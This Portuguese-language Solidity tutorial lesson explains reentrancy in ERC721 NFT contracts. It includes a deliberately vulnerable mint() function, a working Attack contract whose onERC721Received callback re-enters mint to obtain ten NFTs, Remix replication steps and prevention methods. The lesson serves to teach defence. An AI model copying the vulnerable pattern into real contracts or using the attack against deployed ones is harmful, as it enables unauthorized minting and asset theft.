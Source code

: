 # Segurança do Contrato Solidity: S16. Ataque de Reentrada em NFT

Recentemente, tenho revisitado o aprendizado de Solidity para reforçar os detalhes e estou escrevendo um "Guia de Iniciação Rápida para Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 palestras.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WhatsApp](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

Nesta palestra, vamos falar sobre a vulnerabilidade de ataque de reentrada em contratos NFT e atacar um contrato NFT com falhas para criar 10 NFTs.

## Risco de Reentrada em NFT

Já discutimos em [S01 Ataque de Reentrada](../S01_ReentrancyAttack/readme_pt-br.md) que o ataque de reentrada é um dos ataques mais comuns nos contratos inteligentes, onde um invasor, por meio de uma vulnerabilidade no contrato (como a função `fallback`), faz chamadas repetidas ao contrato para transferir ativos ou criar muitas tokens. Quando se trata de transferir NFTs, eles não acionam as funções `fallback` ou `receive` dos contratos. Por que ainda há risco de reentrada?

Isso ocorre porque os padrões de NFT (ERC721/ERC1155) adicionaram uma verificação segura para garantir que os ativos de NFT não sejam acidentalmente enviados para um endereço inválido. Quando um NFT é transferido para um contrato, ele chama a função de verificação correspondente desse contrato, garantindo que esteja pronto para receber o ativo de NFT. Por exemplo, a função `safeTransferFrom()` do `ERC721` chama a função `onERC721Received()` do endereço de destino, o que pode ser explorado por um hacker para lançar um ataque.

Aqui estão as funções do `ERC721` e `ERC1155` que têm potencial para risco de reentrada:

![](./img/S16-1.png)

## Exemplo de Vulnerabilidade

Vamos analisar um exemplo de contrato NFT com vulnerabilidade de reentrada. Este contrato `ERC721` permite a cada endereço criar um NFT gratuitamente, mas um ataque de reentrada pode permitir a criação de vários NFTs de uma só vez.

### Contrato com Vulnerabilidade

O contrato `NFTReentrancy` herda o contrato `ERC721` e possui 2 variáveis de estado principais: `totalSupply`, que rastreia o total de NFTs criados, e `mintedAddress`, que armazena os endereços que já criaram NFTs para evitar múltiplas criações. Ele possui 2 funções principais:
- Construtor: Inicializa o nome e o símbolo da coleção de NFTs para o `ERC721`.
- `mint()`: Função de criação, onde cada usuário pode criar um NFT gratuitamente. **Atenção: esta função apresenta uma vulnerabilidade de reentrada!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    
    // Construtor, inicializa o nome e símbolo da coleção NFT
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Função de criação de NFT, cada usuário só pode criar 1 NFT
    // Tem vulnerabilidade de reentrada
    function mint() payable external {
        // Verifica se o endereço já criou um NFT
        require(mintedAddress[msg.sender] == false);
        // Incrementa o total de NFTs
        totalSupply++;
        // Cria o NFT
        _safeMint(msg.sender, totalSupply);
        // Registra o endereço que criou o NFT
        mintedAddress[msg.sender] = true;
    }
}
```

### Contrato de Ataque

O contrato `Attack` herda o contrato `IERC721Receiver` e possui 1 variável de estado `nft` que armazena o endereço do contrato NFT com vulnerabilidade. Ele possui 3 funções:
- Construtor: Inicializa o endereço do contrato NFT com vulnerabilidade.
- `attack()`: Função de ataque, que chama a função `mint()` do contrato NFT para iniciar o ataque.
- `onERC721Received()`: Função de retorno de chamada do ERC721 com código malicioso incorporado, que chama repetidamente a função `mint()` e cria 10 NFTs.

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // Endereço do contrato NFT com vulnerabilidade

    // Inicializa o endereço do contrato NFT
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Função de ataque, inicia o ataque
    function attack() external {
        nft.mint();
    }

    // Função de retorno de chamada do ERC721, que chama a função mint repetidamente e cria 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Replicação no Remix

1. Implante o contrato `NFTReentrancy`.
2. Implante o contrato `Attack`, inserindo o endereço do contrato `NFTReentrancy` como parâmetro.
3. Chame a função `attack()` do contrato `Attack` para iniciar o ataque.
4. Chame a função `balanceOf()` do contrato `NFTReentrancy` para consultar a posse do contrato `Attack`. Você verá que ele possui 10 NFTs, com o ataque bem-sucedido.

![](./img/S16-2.png)

## Métodos de Prevenção

Existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação (checks-effect-interaction) e o uso de bloqueios de reentrada.

1. Modelo de Verificação-Impacto-Interação: Este modelo enfatiza que ao escrever funções, deve-se primeiro verificar se as variáveis de estado estão de acordo com os requisitos, em seguida, atualizá-las (por exemplo, saldo), e por último interagir com outros contratos. Podemos corrigir a função `mint()` vulnerável usando este modelo.

2. Bloqueio de Reentrada: É um modificador utilizado para evitar funções de reentrada. Recomendamos o uso do [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard), fornecido pela OpenZeppelin.

## Conclusão

Nesta palestra, abordamos a vulnerabilidade de ataques de reentrada em contratos NFT e realizamos um ataque bem-sucedido a um contrato NFT com falhas, criando 10 NFTs. Atualmente, existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação e o uso de bloqueios de reentrada.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->